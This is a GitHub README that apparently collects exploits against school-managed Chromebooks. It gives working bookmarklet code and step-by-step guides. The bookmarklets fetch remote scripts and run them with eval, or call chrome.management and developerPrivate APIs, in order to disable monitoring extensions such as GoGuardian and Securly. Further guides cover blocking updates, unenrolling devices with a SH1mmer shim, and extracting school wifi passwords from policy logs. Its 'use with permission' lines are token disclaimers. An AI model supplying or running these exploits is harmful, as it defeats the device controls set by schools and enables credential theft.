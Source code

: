 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan
<details>
<summary><b> Extension Launcher(Bookmarklet) </summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>
<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b> (Unenroll and more)</summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  
This exploit can be used to completely unenroll enterprise-managed Chromebooks.  
  
**PLEASE FOLLOW EVERY DIRECTION!** If you do not, you could brick your chromebook.
  
More info: <a href="https://sh1mmer.me/">https://sh1mmer.me/</a>  
- FAQ: <a href="https://sh1mmer.me/faq.html">https://sh1mmer.me/faq.html</a>
- Credits: <a href="https://sh1mmer.me/credits.html">https://sh1mmer.me/faq.html</a>
  
This exploit works quite like downgrading, but requires a few more steps.  
<i>Requirements</i>  
- A USB with atleast 16gbs
- A personal computer

<i>Setup</i>

1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

**NOTE: IT IS ILLADVISED TO USE PREBUILT SHIMS FROM RANDOM PEOPLE AS SOME ARE TROJANS WHICH WILL BRICK YOUR CHROMEBOOK, YOU HAVE BEEN WARNED, ALWAYS COMPARE THE HASHES OF THE SHIM WITH A TRUSTED PERSONS HASH** When in doubt, make your own shim, if you brick your chromebook, have fun explaining that to your sysadmin

2. Make sure your board is in this list: `brask, brya, clapper, coral, dedede, enguarde, glimmer, grunt, hana, hatch, jacuzzi, kukui, nami, octopus, orco, pyro, reks, sentry, stout, strongbad, tidus, ultima, volteer, zork` If it is not, then this exploit will not work.
3. This next step can be hard for some people who are stupid and can't use computers, so if you are dumb, make someone else do it or just dont do it. You will need Windows or Linux (cry rich MacOS users), there is also a web version for those smooth brained people

Build Process: Web ~~idiot~~

1. Download your board at [files.ultimatesrv.com](https://files.ultimatesrv.com/) or [mirror.the-repo.org](https://mirror.the-repo.org/RMA/Shims/)
2. Go to [chromeos-rma-leaks.me](https://chromeos-rma-leaks.me/)
3. Click the nice big start button and select the board you downloaded
4. Wait (This can be about 7 minutes for octo, 2 min for good computers)
  
Build Process: Windows

1. Download wax4windows from https://dl.sh1mmer.me/build-tools (windows folder btw)
2. Extract the zip file fully
3. Open the application
4. Select "Select RMA Shim from local"
5. Select the .bin file of the RMA shim you are modifying to be a sh1mmer payload (if you dont have one, https://lenovo-driver-download.com)
6. Click "Inject SH1mmer payload"
7. Wait from 1-10 minutes (depending on your CPU and IO speed)
8. Profit

Build process: Linux

1. Install vboot-utils (archlinux aur) or cgpt (debian/ubuntu and dirr, sudo apt install cgpt)
2. Download and extract source-code (mini).zip from https://dl.sh1mmer.me/build-tools
3. Change your working directory into SOURCE-CODE-ROOT/wax (cd wax)
4. Change wax.sh to be executable (chmod 755 wax.sh)
5. Run wax with sudo ./wax.sh <PATH-TO-RMA-SHIM>
6. Wait from 30 seconds to 5 minutes, depending on IO speed
7. Profit

Note if you can not do this, I may help you, depends on my mood, discord.gg/3kh0 >:(

4. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>  

If the Chromebook Recovery Utility doesn't work, you can use Rufus or any other USB flasher. The Chromebook Recovery Utility isn't very good, but I had to use it just to make sure the guide was streamlined between all operating systems. Download Rufus here: https://rufus.ie

5. Open the extention, and click on the settings button in to top right hand corner, click "use local image"

![image](https://user-images.githubusercontent.com/58097612/212979292-61787616-f640-47f8-8aee-2b37baf66b58.png)

6. Select the .bin file you downloaded
7. Click the blue button
8. Wait

<i>Instlation</i>

1. Enter recovery mode on your Managed Chromebook. This is done by pressing the power button, reload key (↻), and esc key at the same time. Your screens should look like the image below:

![image](https://user-images.githubusercontent.com/58097612/212979580-afb09ba1-e851-49a1-9b72-71092c46af43.png)
![image](https://user-images.githubusercontent.com/58097612/212979638-8af8d0ed-d080-4d7d-938a-a6723cff4d5e.png)

2. Press ctrl+d, then enter
3. It will now say something about "returning to secure mode" or that "OS verification is off", this means ou are ready to boot Sh1mmer. It will look the like the images below:

![image](https://user-images.githubusercontent.com/58097612/212979781-926be545-fb6e-4441-bebe-ff89e7d4a1f1.png)
![image](https://user-images.githubusercontent.com/58097612/212979798-65f45aa3-616a-4ccf-8636-2b94cce86686.png)

4. Press the power button, reload key (↻), and esc key at the same time again.
5. Plug your shimmed USB into your Chromebook, and press the power button, reload key (↻), and esc key again.

![image](https://user-images.githubusercontent.com/58097612/212979889-019e53e9-1f39-4536-900d-d95585c65bd6.png)

6. Navigate to "Payloads", then click on "Unenroll"
7. Nagigate back to the pain page, and click "Reboot"

Enjoy your new, unenrolled chromebook!

Please use this only when you have permisson, I (3kh0) and Mercury Workshop do not condone the use of this exploit for illegal purposes!

Further reading (if you like this stuff)
- https://www.reddit.com/r/MercuryWorkshop/comments/10kz7rr/sh1mmer_official_post/
- https://sh1mmer.me/
- https://www.youtube.com/watch?v=AYZBhfmLtxk
- https://youtu.be/6ND_yrboOKM
- https://coolelectronics.me/blog/breaking-cros-2
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google   service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
<details>
<summary><b>Wifi Password</b> (Get school wifi passwords)</summary>
You can get your school's wifi password if it is built into the enrollment!

![image](https://user-images.githubusercontent.com/58097612/212685463-cfd45697-a90f-42dd-8295-2bcdb5edcd4f.png)

*This tool should not be used for illegal activity. By using this tool, you acknowledge that you are legally allowed to extract the password(s) in question.*

1. Visit chrome://net-export
2. In "OPTIONS" set "Include raw bytes"
3. Click "Start Logging to Disk"
4. Visit chrome://policy
5. Click "Reload policies"
6. Go back to chrome://net-export and click "Stop logging"
7. Upload file [here!](https://luphoria.com/netlog-policy-password-tool)
8. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
